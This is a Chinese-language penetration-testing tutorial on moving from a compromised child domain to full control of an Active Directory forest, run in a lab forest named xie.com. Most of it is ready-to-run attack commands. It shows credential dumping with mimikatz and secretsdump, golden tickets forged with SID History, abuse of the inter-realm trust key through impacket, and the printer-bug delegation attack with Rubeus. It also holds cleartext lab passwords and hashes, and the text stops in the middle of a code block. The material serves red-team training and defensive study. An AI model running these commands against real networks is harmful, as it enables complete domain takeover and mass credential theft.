# 域林攻击

如果碰到了目标是域林的架构，在拿下了域林中某个子域的控制权限后，如何通过子域横向到林根域进而控制整个域林呢？本文主要讲解**域林中横向渗透**的一些手法和攻击思路。

有如下实验环境：

xie.com 是域林的林根域，shanghai.xie.com 和 beijing.xie.com 都是xie.com 的子域。shanghai.xie.com 域中有一个域内主机 Win2008R2，beijing.xie.com 域中有一个域内主机 Win10。整体架构如图所示：



现在通过其他手段拿下了主机 Win2008R2 的权限，并且通过执行相关命令得知当前主机 Win2008R2 在 shanghai.xie.com 域内。通过查询域信任关系可以得知当前域林中有三个域。林根域为 xie.com，两个子域为 beijing.xie.com 和shanghai.xie.com。

如图所示，通过 CobaltStrike 执行相关查询命令：



通过 CobaltStrike 内置的 mimikatz 模块抓取到当前机器用户的凭据。用户为域 shanghai.xie.com 下的 sh_test，密码为：P@ss1234。



现在我们需要通过该机器以及获取到的信息进行域林横向，直至接管整个域林！

## 查询域控

这一步主要查询域林中三个域的域控制器。查询的手段有很多，这里只演示使用 adfind、nslookup 和 nltest 进行查询。

通过这些手段查询得到三个域的域控制器的信息如下：

林根域 xie.com 域控制器：

-  AD：10.211.55.4
-  AD02：10.211.55.8

域 shanghai.xie.com 域控制器：

-  SH-AD：10.211.55.13

域 beijing.xie.com 域控制器：

-  BJ-AD：10.211.55.14

具体查询命令如下：

### 1.Adfind 查询

使用 adfind 进行查询，只需要查询的时候指定不同的域 base DN，即可查询出不同域的域控制器

```
#adfind 查询域 xie.com 的域控
Adfind.exe -b dc=xie,dc=com -sc dclist

#adfind 查询域 shanghai.xie.com 的域控
Adfind.exe -b dc=shanghai,dc=xie,dc=com -sc dclist

#adfind 查询域 beijing.xie.com 的域控
Adfind.exe -b dc=beijing,dc=xie,dc=com -sc dclist
```

如图所示，通过 adfind 查询得到三个域的域控制器。



### 2.nslookup 查询

```
#nslookup 查询 xie.com 的域控
nslookup -qt=ns xie.com

#nslookup 查询 beijing.xie.com 的域控
nslookup -qt=ns beijing.xie.com

#nslookup 查询 shanghai.xie.com 的域控
nslookup -qt=ns shanghai.xie.com
```

通过 nslookup 命令查询出林根域 xie.com 的域控：



### 3.nltest 查询

```
#nltest 查询 xie.com 的域控
nltest /DCLIST:xie.com

#nltest 查询 beijing.xie.com 的域控
nltest /DCLIST:beijing.xie.com

#nltest 查询 shanghai.xie.com 的域控
nltest /DCLIST:shanghai.xie.com
```

注：要查询当前域的域控制器，只需要执行 net group "domain controllers" /domain 即可查询。

## 查询域管理员和企业管理员

查询域林中三个域的域管理员和林根域的企业管理员，为后面的权限提升做准备。查询的手段有很多，这里只显示使用 adfind 和 ADExplorer 进行查询。**企业管理员只能在林根域 xie.com 内查询**。通过下面这些手段查询得到三个域的域管理员的如下信息：

林根域 xie.com 的域管理员和企业管理员：

-  域管理员：administrator、admin
-  企业管理员：administrator

域 shanghai.xie.com 的域管理员：

-  域管理员：administrator、sh_admin

域 beijing.xie.com 的域管理员：

-  域管理员：administrator、bj_admin

具体查询命令如下：

### 1.Adfind 查询

```
#查询林根域的企业管理员
Adfind.exe -b "CN=Enterprise Admins,CN=Users,DC=xie,DC=com" member
#查询林根域的域管理员
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=xie,DC=com" member
#查询 beijing.xie.com 的域管理员
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=beijing,DC=xie,DC=com" member
#查询 shanghai.xie.com 的域管理员
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=shanghai,DC=xie,DC=com" member
```

### 2.ADExplorer 查询

除了使用 Adfind 查询外，我们还可以使用 ADExplorer 查询。只需要查询不同域的时候，使用当前获得的凭据连接不同域的域控制器即可。

如图所示，要查询当前域 shanghai.xie.com 的域管理员，只需要使用当前获得的凭据 sh_test 和密码连接 shanghai.xie.com 的域控制器 10.211.55.13 即可。



然后查询 Users 容器下 Domain Admins 组的 member 属性即可查询到域管理员。如图所示，可以看到查询到域管理员 sh_admin 和 administrator。



注：要查询当前域的域管理员，只需要执行 net group "domain admins" /domain 即可查询。

## 查询所有域用户

在当前主机 Win2008R2 通过执行如下命令查询当前域所有域用户。

```
net group "domain users"  /domain
```



然后可以使用 adfind 执行如下命令查询其他域的所有用户。

```
#adfind 查询域 xie.com 的所有域用户
Adfind.exe -b dc=xie,dc=com -f "(&(objectCategory=person)(objectClass=user))" -dn
#adfind 查询域 beijing.xie.com 的所有域用户
Adfind.exe -b dc=beijing,dc=xie,dc=com -f "(&(objectCategory=person)(objectClass=user))" -dn
```

## 查询所有域主机

在当前主机 Win2008R2 通过执行如下命令查询当前域所有域主机。

```
net group "domain computers" /domain
```



然后可以使用 adfind 查询其他域的所有主机。

```
#adfind 查询域 xie.com 的所有域主机
AdFind.exe -b dc=xie,dc=com -f "objectcategory=computer" dn
#adfind 查询域 beijing.xie.com 的所有域主机
AdFind.exe -b dc=beijing,dc=xie,dc=com -f "objectcategory=computer" dn
```

## 跨域横向

现在假设已经通过其他漏洞获得了某个子域的域控制器权限，然后需要跨域横向获得林根域 xie.com 的域控制器权限，进而接管整个域林。这里进行跨域横向使用的方法均涉及到了 **SID History**。

### 1.获得子域权限

假设现在我们已经拿到了 shanghai.xie.com 的域控和域管理员权限，如图所示：



通过 CobaltStrike 内置的 mimikatz 模块抓取到 shanghai.xie.com 的域管理员 administrator 的凭据如下：

哈希：af112951ba8629d25a6a44417579283d
通过解密得到明文：P@ssword12345

然后就可以使用 `secretsdump.py` 脚本执行如下命令利用该域管理员凭据导出当前域 shanghai.xie.com 的任意用户哈希了。

```
#导出当前域中 krbtgt 用户哈希，由于域林中每个域都有 krbtgt 用户，因此需要加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user "shanghai\krbtgt"
```

注意，这里指定用户时需要加前缀，如：shanghai\krbtgt 。因为在域林中，每个域中都有 krbtgt 用户，因此需要指定。



如果导出的是这个域中特有的用户，或者是直接导出所有用户的话可不指定前缀。命令如下：

```
#导出当前域中特有的用户哈希，此时可不加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user sh_test

#导出当前域中所有用户哈希，此时可不加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc
```



并且需要注意的是，子域 shanghai.xie.com 的域管理员无权限 DCSync 林根域 xie.com 和另一个子域 beijing.xie.com。

如图所示，子域的域管理员凭据无权限导出其他域的用户哈希。



### 2.黄金票据+SID History 获得林根域权限

> SID history 是在微软 Windows 服务器环境中用于身份验证和授权的一个重要概念，尤其是在 Active Directory (AD) 迁移过程中。
> 
> **SID的概念**:SID (Security Identifier) 是每个对象（用户、组、计算机等）在 Windows 系统中的唯一标识符。它用于标识特定的用户或组，系统通过 SID 来授予访问权限。当用户尝试访问文件或资源时，系统会检查其 SID 和访问控制列表 (ACL) 来确定是否允许访问。
> 
> **SID History 的作用**:当一个用户或组从一个域迁移到另一个域时，它们会获得一个新的 SID。问题是，目标域中的资源（如文件、文件夹、共享等）是基于旧域中的 SID 进行访问控制的，因此迁移后，用户可能无法访问原有资源。**SID history 的作用是为用户保留其旧的 SID，从而在新环境中依然可以访问原域中的资源，而无需重新配置访问权限.**
> 
> **工作原理**:当用户登录并尝试访问资源时，系统不仅检查其当前域中的 SID，还会查看用户的 SID history。如果 SID history 中的任何一个 SID 与资源的 ACL 匹配，用户将被授予访问权限。
> 
> **例如**：用户 A 从域 DomainA 迁移到域 DomainB。在迁移过程中，用户 A 获得了一个新的 SID，但同时保留了在 DomainA 中的旧 SID。用户 A 尝试访问一个仍然属于 DomainA 的文件，而该文件的权限基于用户 A 在 DomainA 时的 SID。SID history 中包含用户 A 的旧 SID，因此系统允许用户访问该文件

上面我们已经获得了子域 shanghai.xie.com 的域控制器权限和域管理员权限了，现在我们想通过已有的权限获得整个域林的控制权限。这里我们演示使用黄金票据+SID History 攻击来跨域横向获得林根域权限。

**使用黄金票据+SID History 攻击首先需要获取当前域 shanghai.xie.com 的域SID 以及林根域 xie.com 的 Enterprise Admins 的 SID**，这个通过 adfind 或者adexplorer 均可查询到，查询结果如下：

-  shanghai.xie.com 的域 SID 为：S-1-5-21-909331469-3570597106-3737937367
-  xie.com 的 Enterprise Admins 的 SID 为：S-1-5-21-1313979556-3624129433-4055459191-519

而 shanghai.xie.com 的 krbtgt 哈希在上面我们已经导出来了，为：17016f19a93e50c80860f32130fd600f

这里我们演示通过 mimikatz 执行如下命令进行黄金票据+SID History 攻击：

```
#生成林根域的黄金票据
kerberos::golden /user:administrator /domain:shanghai.xie.com /sid:S-1-5-21-909331469-3570597106-3737937367 /krbtgt:17016f19a93e50c80860f32130fd600f /sids:S-1-5-21-1313979556-3624129433-4055459191-519 /ptt
#导出林根域 xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv
```

如图所示，可以看到利用完成后，即可导出林根域 xie.com 的 krbtgt 用户哈希了！



至此，我们已经获得了整个域林的访问权限了！

### 3.inter-realm key+SID History 获得林根域权限

域信任中我们讲到了跨域资源是如何访问的。如图所示:



**因此只要我们获取到了 inter-realm key 就能制作访问其他域任意服务的 ST服务票据了**。然后在 ST 服务票据中加上企业管理员的 SID History，就可以以企业管理员权限访问域林中的任意服务了！

那么如何获得 inter-realm key 呢？只要**获得了域林中任意域的域控制器权限**，即可通过相关工具查询出 inter-realm key。以下我们演示通过 mimikatz 和impacket 脚本获得 inter-realm key。

#### (1) mimikatz 获得 inter-realm key

在 shanghai.xie.com `域控制器 SH-AD` 上通过 mimikatz 执行如下命令获得inter-realm key 的值。

```
mimikatz.exe "privilege::debug" "lsadump::trust /patch" "exit"
```



获得如下信息：

- 获得这个 rc4_hmac_nt 的值为：0f81015ca4691b714e9db485568e5e6b
- shanghai.xie.com 的域 SID 为：S-1-5-21-909331469-3570597106-3737937367
- xie.com 的 Enterprise Admins 的 SID 为：S-1-5-21-1313979556-3624129433-4055459191-519

#### (2) powershell 获得 inter-realm key

**我们都知道，加`$`的是机器账号。但是在域林内，在 Users 组带`$`的是信任账号，信任账号的哈希就是 inter-realm key。**

我们可以在 shanghai.xie.com 的域控上执行如下命令查询，可以看到查询出来的是 `XIE$`账号，因为该域是和 xie.com 进行双向信任，因此信任账号是` XIE$`。

```
Get-ADUser -filter * -Properties DistinguishedName,samAccountType | ?{$_. name -like "*$"}
```

如图所示，查询出信任账号 XIE$。



然后可以使用 secretsdump 执行如下命令导出该信任用户 XIE$的哈希了。

```
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user "shanghai\XIE$"
```

如图所示，导出信任账号 XIE$的哈希，该哈希即是 inter-realm key



#### (3) impacket 攻击

通过上面手段获得 inter-realm key 后，可以利用 impacket 执行如下命令进行攻击：

```
#生成高权限的黄金票据
python3 ticketer.py -nthash 0f81015ca4691b714e9db485568e5e6b -domain-sid S-1-5-21-909331469-3570597106-3737937367 -extra-sid S-1-5-21-1313979556-3624129433-4055459191-519 -domain shanghai.xie.com -spn krbtgt/xie.com administrator
#导入票据
export KRB5CCNAME=administrator.ccache
#获得高权限的 cifs/ad.xie.com 的 ST 服务票据
python3 getST.py -debug -k -no-pass -spn cifs/ad.xie.com -dc-ip 10.211.55.4xie.com/administrator
#远程连接林根域控
python3 smbexec.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com
#导出林根域内 krbtgt 的哈希
python3 secretsdump.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com-just-dc-user "xie\krbtgt"
```

如图所示，可以看到利用完成后即可远程连接林根域的域控制器：



如图所示，导出林根域 krbtgt 用户的哈希。



#### (4) mimikatz 攻击

获得 inter-realm key 后，可以利用 mimikatz 执行如下命令进行攻击。

```
#生成高权限的黄金票据
kerberos::golden /user:administrator /domain:shanghai.xie.com /sids:S-1-5-21-1313979556-3624129433-4055459191-519 /sid:S-1-5-21-909331469-3570597106-3737937367 /krbtgt:0f81015ca4691b714e9db485568e5e6b /service:krbtgt /target:xie.com /ptt
```

如图所示，将黄金票据导入内存后，即可远程访问林根域的域控制器了。



### 4.利用非约束性委派

域控制器默认配置了非约束性委派的选项。因此当我们控制了子域的域控制器后，我们可以利用子域的域控制器来进行非约束性委派的攻击。

– 子域域控：SH-DC01 

– 要攻击的根域域控：DC02

首先在子域域控制器上执行如下命令进行监听来自 DC02 的票据

```
Rubeus.exe monitor /interval:1 /filteruser:DC02$ /nowrap
```

然后在子域域控制器上执行如下命令**使用打印机服务漏洞攻击林根域域控DC02**，使其强制回连认证我们的子域域控制器 sh-DC01。

```
SpoolSample.exe DC02 sh-DC01
```

攻击完成后可以看到我们的 Rubeus 已经收到来自 DC02 的 base64 的 TGT认购权证了。



然后我们可以直接使用 Rubeus 执行如下命令导入这个 base64 的 TGT 认购权证，就可以使用 mimikatz 导出林根域的所有用户 hash 了。

```
Rubeus.exe ptt /ticket:base64 格式的票据
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv" "exit"
```





## 获得林根域的后操作

获得林根域 xie.com 的域控制器权限后，即可使用 mimikatz 执行如下命令导出全林中任意域的指定用户的哈希：

```
#导出域 xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv
#导出域 beijing.xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:beijing.xie.com /user:beijing\krbtgt /csv
#导出域 shanghai.xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:shanghai.xie.com /user:shanghai\krbtgt /csv
```

在林根域的域控上使用 mimikatz 执行如下命令导出全林中任意域的所有用户的哈希。

```
#导出域 xie.com 内所有用户的哈希
lsadump::dcsync /domain:xie.com /all /csv
#导出域 beijing.xie.com 内所有用户的哈希
lsadump::dcsync /domain:beijing.xie.com /all /csv
#导出域 shanghai.xie.com 内所有用户的哈希
lsadump::dcsync /domain:shanghai.xie.com /all /csv
```

或者可以通过 CobaltStrike 内置的 mimikatz 模块得到林根域 xie.com 的域管理员 administrator 的哈希为：33e17aa21ccc6ab0e6ff30eecb918dfb，如图所示：

      

通过解密该哈希得到明文密码为：P@ssword1234。然后通过 impacket 下的secretsdump.py 脚本执行如下命令通过 DCSync 远程导出全林内指定用户的哈希，要导出哪个域的哈希，就连接指定域的域控，如果是导出指定用户，需要加上前缀

```
#导出域 xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.4 -just-dc-user "xie\krbtgt" 
#导出域 shanghai.xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.13 -just-dc-user "shanghai\krbtgt"
#导出域 beijing.xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.14 -just-dc-user "beijing\krbtgt"
```

也可以执行如下命令通过 impacket 导出不同域所有用户的哈希。

```
#导出域 xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.4 -just-dc
#导出域 shanghai.xie.com 内所有用户的哈希
